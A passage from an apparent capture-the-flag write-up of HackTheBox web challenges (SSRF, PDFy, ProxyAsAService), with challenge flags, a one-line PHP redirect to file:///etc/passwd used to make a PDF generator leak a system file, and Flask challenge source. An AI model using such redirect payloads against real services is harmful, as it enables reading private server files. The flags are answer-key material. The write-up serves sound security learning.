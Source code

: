 
flag : `HTB{s5rf_m4d3_m3_w3t_my_p4nts!}`


## PDFy

![image](https://hackmd.io/_uploads/rkNTmn980.png)

![image](https://hackmd.io/_uploads/B1H57n5LA.png)
![image](https://hackmd.io/_uploads/BJFj73qIR.png)

```
┌──(l3mnt2010㉿ASUSEXPERTBOOK)-[~/PDFy]
└─$ cat index.php
<?php header('location:file:///etc/passwd'); ?>
```

flag : `HTB{pdF_g3n3r4t1on_g03s_brrr!}`
## ProxyAsAService

- Một chall với flask_python với các route sau:

```
from flask import Flask, jsonify
from application.blueprints.routes import proxy_api, debug

app = Flask(__name__)
app.config.from_object('application.config.Config')

app.register_blueprint(proxy_api, url_prefix='/')
app.register_blueprint(debug, url_prefix='/debug')

@app.errorhandler(404)
def not_found(error):
    return jsonify({'error': 'Not Found'}), 404

@app.errorhandler(403)
def forbidden(error):
    return jsonify({'error': 'Not Allowed'}), 403

@app.errorhandler(400)
def bad_request(error):
    return jsonify({'error': 'Bad Request'}), 400
```

- Route / và /debug:

```
from flask import Blueprint, request, Response, jsonify, redirect, url_for
from application.util import is_from_localhost, proxy_req
import random, os

SITE_NAME = 'reddit.com'

proxy_api = Blueprint('proxy_api', __name__)
debug     = Blueprint('debug', __name__)


@proxy_api.route('/', methods=['GET', 'POST'])
def proxy():
    url = request.args.get('url')

    if not url:
        cat_meme_subreddits = [
            '/r/cats/',
```